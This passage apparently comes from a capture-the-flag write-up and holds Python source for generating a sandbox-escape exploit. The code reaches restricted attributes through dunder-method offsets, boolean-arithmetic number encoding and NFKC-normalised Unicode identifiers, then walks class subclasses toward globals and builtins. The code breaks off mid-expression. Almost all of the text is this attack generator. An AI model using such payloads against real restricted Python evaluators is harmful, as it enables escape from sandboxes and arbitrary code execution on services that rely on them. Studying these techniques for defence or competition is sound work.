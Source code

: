 And the following is for generating the real Python exploit.

```python
import sys
import unicodedata


class Generator:
    # get numner
    def __call__(self, num):
        if num == 0:
            return '(not[[]])'
        return '(' + ('(not[])+' * num)[:-1] + ')'

    # get string
    def __getattribute__(self, name):
        try:
            offset = None.__dir__().index(name)
            return f'keys[{self(offset)}]'
        except ValueError:
            offset = None.__class__.__dir__(None.__class__).index(name)
            return f'keys2[{self(offset)}]'


_ = Generator()

names = []
chr_code = 0
for x in range(4700):
    while True:
        chr_code += 1
        char = unicodedata.normalize('NFKC', chr(chr_code))
        if char.isidentifier() and char not in names:
            names.append(char)
            break

offsets = {
    "__delitem__": 2800,
    "__getattribute__": 2850,
    '__dir__': 4693,
    '__repr__': 2128,
}

variables = ('keys', 'keys2', 'None_', 'NoneType',
             'm_repr', 'globals', 'builtins',)

for name, offset in offsets.items():
    names[offset] = name

for i, var in enumerate(variables):
    assert var not in offsets
    names[792 + i] = var


source = f'''[
({",".join(names)}) if [] else [],
None_ := [[]].__delitem__({_(0)}),
keys := None_.__dir__(),
NoneType := None_.__getattribute__({_.__class__}),
keys2 := NoneType.__dir__(NoneType),
get := NoneType.__getattribute__,
m_repr := get(
    get(get([],{_.__class__}),{_.__base__}),
    {_.__subclasses__}
```